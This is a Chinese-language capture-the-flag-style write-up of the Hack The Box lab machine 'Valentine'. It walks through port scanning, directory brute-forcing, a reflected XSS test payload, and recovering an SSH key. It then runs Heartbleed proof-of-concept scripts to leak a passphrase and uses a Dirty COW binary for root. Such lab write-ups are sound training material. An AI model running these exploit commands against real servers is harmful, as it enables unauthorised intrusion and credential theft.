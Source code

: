 ```yaml
---
title: Valentine（CTF-like also）
categories:
- training
tags:
- training
---
```

```
Discovered open port 22/tcp on 10.10.10.79                                     
Discovered open port 443/tcp on 10.10.10.79                                    
Discovered open port 80/tcp on 10.10.10.79   

443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
```
---
访问后发现http和https，虽然端口不同，但是内容都是一样。

wget http://10.10.10.79                

gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/dev

## notes.txt

```
http://10.10.10.79/dev/hype_key
http://10.10.10.79/dev/notes.txt
```

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```
https://10.10.10.79/encode
输入2222</br><script>alert('xss')</script>
 一个反射性xss
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/6.PNG)

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/7.PNG)

Secure Data Encoder - No Data is Stored On Our Servers ，看起来不像注入漏洞。没有利用思路了，看看writeup

## writeup

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/8.PNG)

google hex to ascii码，得到了一个ssh私钥。我的内心是这样的凸(艹皿艹 )

htb总是将密码口令以不引人注目的方式藏在诸如ftp服务器上，实际上在real场景中，几乎没有人会这么做。

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/9.PNG)

chmod 400 id_rsa

ssh -i id_rsa hype@10.10.10.79

需要输入密码

---

```
searchsploit heartbleed
python 32745.py -p 443 10.10.10.79
换一个poc

wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
python heartbleed-poc.py -p 443 10.10.10.79
python heartbleed-poc.py -p 443 10.10.10.79 -n 10 > memori.txt
```
通过heardbleed泄露内存中的信息，但是试了一百多（-n选择次数），也没有成功dump出text包含的ssh密码。好坑~~

总之，heartbleedbelievethehype，以该口令ssh成功登入。

## 提权
cat /etc/passwd

发现有一个用户firefart，立即意识到，有人用dirtycow成功提权了

于是查找exp
```
find / -name "dirty" 2>/dev/null

看到tmp目录有现成的
./dirty 123
等待一分钟左右

su firefart
123
```
## 总结
heartbleed是一种内存错误，发生在443端口，ssl协议

tmux是指通过一个终端登录远程主机并运行后，在其中可以开启多个控制台的终端复用软件。

利用权限错误，以root权限运行tmux，可以利用该软件提权。



